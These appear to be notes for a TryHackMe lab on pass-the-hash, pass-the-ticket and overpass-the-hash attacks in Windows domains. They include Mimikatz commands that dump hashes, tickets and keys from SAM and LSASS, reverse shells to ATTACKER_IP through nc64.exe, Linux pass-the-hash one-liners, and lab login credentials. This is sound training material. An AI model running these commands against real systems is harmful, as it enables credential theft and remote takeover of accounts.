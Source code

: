 # Use of Alternate Authentication Material

Alternate authentication material refers to any data that can be used to access a Windows account without knowing the user's password. This is possible due to how certain authentication protocols in Windows networks function. This guide explores methods to log in as a user when the following authentication protocols are available:

- NTLM authentication
- Kerberos authentication

> **Note:** Familiarity with credential extraction methods and tools like Mimikatz is assumed.

---

## NTLM Authentication

### How NTLM Authentication Works

1. The client sends an authentication request to the server.
2. The server generates a random number (challenge) and sends it to the client.
3. The client combines the NTLM password hash with the challenge to generate a response and sends it back to the server.
4. The server forwards the challenge and response to the Domain Controller for verification.
5. The Domain Controller recalculates the response using the challenge and compares it to the client's response. If they match, authentication succeeds.
6. The server forwards the authentication result to the client.

> **Note:** For local accounts, the server can verify the response without involving the Domain Controller.

---

### Pass-the-Hash (PtH)

NTLM password hashes can be used to authenticate without cracking them. This is possible because the NTLM challenge can be responded to using just the hash.

#### Extracting NTLM Hashes

1. **From Local SAM** (local users only):
    ```powershell
    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # lsadump::sam
    ```

2. **From LSASS Memory** (local and domain users):
    ```powershell
    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # sekurlsa::msv
    ```

#### Performing PtH with Mimikatz
```powershell
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Start a reverse listener on the AttackBox:
```bash
nc -lvp 5555
```

#### Using Linux Tools for PtH
- **RDP**: `xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`
- **PsExec**: `psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`
- **WinRM**: `evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH`

---

## Kerberos Authentication

### How Kerberos Authentication Works

1. The user sends their username and a timestamp encrypted with a key derived from their password to the Key Distribution Center (KDC).
2. The KDC sends back a Ticket Granting Ticket (TGT) and a Session Key.
3. The user uses the TGT to request a Ticket Granting Service (TGS) for specific services.
4. The TGS is sent to the desired service to authenticate and establish a connection.

---

### Pass-the-Ticket (PtT)

Kerberos tickets and session keys can be extracted from LSASS memory using Mimikatz:
```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

Inject the ticket into the current session:
```powershell
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

Verify the ticket injection:
```powershell
klist
```

---

### Overpass-the-Hash / Pass-the-Key (PtK)

Kerberos encryption keys can be used to request a TGT without the actual password. Extract keys using Mimikatz:
```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Perform PtK with Mimikatz:
- **RC4 Hash**:
  ```powershell
  mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
  ```
- **AES128 Hash**:
  ```powershell
  mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
  ```
- **AES256 Hash**:
  ```powershell
  mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
  ```

Start a reverse listener on the AttackBox:
```bash
nc -lvp 5556
```

---

## Exercise

1. Connect to `THMJMP2` via SSH:
    ```bash
    ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com
    ```
    - **User**: `ZA.TRYHACKME.COM\t2_felicia.dean`
    - **Password**: `iLov3THM!`

2. Use Mimikatz to extract authentication material and perform PtH, PtT, or PtK against `t1_toby.beck`.

3. Use `winrs` to connect to `THMIIS`:
    ```powershell
    winrs.exe -r:THMIIS.za.tryhackme.com cmd
    ```

4. Locate the flag on `t1_toby.beck`'s desktop on `THMIIS`.

> **Tools Available**: Mimikatz and PsExec64 at `C:\tools` on `THMJMP2`.